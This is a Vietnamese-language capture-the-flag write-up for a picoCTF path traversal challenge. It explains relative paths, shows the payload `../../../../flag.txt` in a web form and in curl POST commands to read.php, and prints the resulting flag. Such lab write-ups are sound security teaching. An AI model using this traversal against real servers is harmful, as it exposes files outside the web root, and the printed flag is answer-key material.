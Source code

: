 - link: http://saturn.picoctf.net:55793/
- We know that the website files live in /usr/share/nginx/html/ and the flag is at /flag.txt but the website is filtering absolute file paths. Can you get past the filter to read the flag?
- bài này giúp ta học các vượt quyền truy cập vào các thư mục mẹ <tôi nghĩ vậy>
## Giải
# Thực hiện trực tiếp trên web:
- truy cập vào trang web thấy xuất hiện ô nhập các file để check thử nhập `/flag.txt` thì xuất hiện thông báo "Not Authorized"
- có nghĩa tôi không có quyền truy cập vào file và tôi tìm cách leo quyền
- tôi thử `../html/divine-comedy.txt` ở việc làm này tôi đề cập đến một file có tên "divine-comedy.txt" trong thư mục "html" nằm trực tiếp bên ngoài thư mục hiện tại. hơi khó hiểu phải không :>
- tôi đã tìm được 1 ví dụ trực quan:
- root
  > documents
    > file1.txt
    > file2.txt
  > html
    > divine-comedy.txt
    > index.html 
>Nếu bạn đang đứng tại thư mục "documents" và bạn muốn truy cập vào file "divine-comedy.txt" trong thư mục "html", bạn có thể sử dụng đường dẫn tương đối "../html/divine-comedy.txt".
>".." nghĩa là thư mục cha (thư mục gốc hoặc thư mục mẹ).
>"../html" nghĩa là đi từ thư mục "documents" lên thư mục cha "root", rồi vào thư mục "html".
Cuối cùng, "divine-comedy.txt" là tên file bạn muốn truy cập.
- vì đường dẫn đến `/flag.txt` phải qua 4 thư 1 nên tôi sẽ leo 4 lần
- điền vào: `../../../../flag.txt`
- flag hiện ra trước mắt hehehe: `picoCTF{7h3_p47h_70_5ucc355_e5a6fcbc}`

# Thực hiện trên terminal Kali:
- tôi truy cập đến source code của trang web trên bằng `curl http://saturn.picoctf.net:55793/`
- đoạn cuối ghi như này:
-  <form role="form" action="read.php" method="post">
      <input type="text" name="filename" placeholder="Filename" required></br>
      <button type="submit" name="read">Read</button>
> Khi người dùng nhập tên tệp vào trường nhập liệu và nhấn nút "Read", biểu mẫu sẽ gửi dữ liệu đến tệp xử lý "read.php" bằng phương thức POST. Dữ liệu trong trường nhập liệu sẽ được gửi dưới dạng cặp khóa-giá trị, trong trường này là "filename" và giá trị nhập liệu tương ứng. Tệp xử lý "read.php" có thể lấy giá trị này và thực hiện các xử lý liên quan, chẳng hạn như đọc nội dung của tệp tin được chỉ định bởi tên tệp.
- tôi Post đến trang web đó và gửi đi `../../../../flag.txt` như ở trên `curl -X POST http://saturn.picoctf.net:55793/read.php --data "filename=../../../../flag.txt" `
- trong đó:
> -X :request:
> POST: truy cập
- flag đã hiện ra nhưng tôi cần xử lí 1 chút để chỉ nhận được mỗi flag thôi <màu mè tí>
- nhập ` curl -X POST http://saturn.picoctf.net:55793/read.php --data "filename=../../../../flag.txt" | grep -oE "picoCTF{.*?}" --color=none ` để nhận được ngay flag
